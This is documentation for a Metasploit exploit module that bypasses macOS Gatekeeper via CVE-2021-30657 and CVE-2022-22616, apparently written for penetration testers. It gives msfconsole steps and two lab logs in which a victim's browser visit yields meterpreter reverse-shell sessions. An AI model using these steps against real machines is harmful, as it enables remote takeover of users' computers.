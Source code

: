 ## Vulnerable Application

This module exploits two CVEs that bypass Gatekeeper.

For CVE-2021-30657 this module serves an OSX app (as a zip) that contains
no Info.plist, which bypasses gatekeeper in macOS < 11.3.

If the user visits the site on Safari, the zip file is automatically extracted,
and clicking on the downloaded file will automatically launch the payload.
If the user visits the site in another browser, the user must click once to unzip
the app, and click again in order to execute the payload.

For CVE-2022-22616, this module serves a gzip-compressed zip file with its file header pointing
to the `Contents` directory which contains an OSX app. If the user downloads the file via Safari,
Safari will automatically decompress the file, removing its `com.apple.quarantine` attribute.
Because of this, the file will not require quarantining, bypassing Gatekeeper on
MacOS versions below 12.3.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/osx/browser/osx_gatekeeper_bypass`
3. `set CVE <cve_num>`
4. `set LHOST <tab>`
5. `set SRVHOST <tab>`
6. `exploit`
7. Visit the URL on a vulnerable version of macOS

## Options

### APP_NAME

Name of the app to be served.

### CVE

The vulnerability to use in the exploit. The default value is the most recent cve (CVE-2022-22616).

## Scenarios

### macOS Catalina 10.15.6

```
msf6 > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > options

Module options (exploit/osx/browser/osx_gatekeeper_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   APP_NAME  app              no        The application name (Default: app)
   SRVHOST   192.168.37.1     yes       The local host or network interface to listen on. This must be an a
                                        ddress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (osx/x64/meterpreter/reverse_tcp):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   LHOST                  192.168.37.1     yes       The listen address (an interface may be specified)
   LPORT                  4444             yes       The listen port
   MeterpreterDebugLevel  0                yes       Set debug level for meterpreter 0-3 (Default output is
                                                      strerr)


Exploit target:

   Id  Name
   --  ----
   0   macOS x64 (Native Payload)


msf6 exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.37.1:8080/q670M8fEMu
[*] Server started.
[*] 192.168.37.132   osx_gatekeeper_bypass - Request /q670M8fEMu from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
[+] 192.168.37.132   osx_gatekeeper_bypass - macOS version 10.15.6 is vulnerable
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (810096 bytes) to 192.168.37.132
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.132:49380) at 2021-04-29 15:21:38 -0500

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions

Active sessions
===============

  Id  Name  Type                 Information                           Connection
  --  ----  ----                 -----------                           ----------
  1         meterpreter x64/osx  space @ spaces-Mac.local (uid=501, g  192.168.37.1:4444 -> 192.168.37.132:
                                 id=20, euid=501, egid=20) @ spaces-M  49380 (192.168.37.132)
                                 ac.local

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: space @ spaces-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           : macOS Catalina (macOS 10.15.6)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```

### macOS Big Sur 11.5.2

```
msf6 > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.140.1:4444
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.140.1:8080/pUyNR5yWEqCu
[*] Server started.
msf6 exploit(osx/browser/osx_gatekeeper_bypass) >
[*] 192.168.140.137  osx_gatekeeper_bypass - Request /pUyNR5yWEqCu from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.2 Safari/605.1.15
[+] 192.168.140.137  osx_gatekeeper_bypass - Safari version 14.1.2 is vulnerable
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (810576 bytes) to 192.168.140.137
[*] Meterpreter session 2 opened (192.168.140.1:4444 -> 192.168.140.137:49355 ) at 2022-04-05 10:10:01 -0500

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 11.5.2)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter >
```
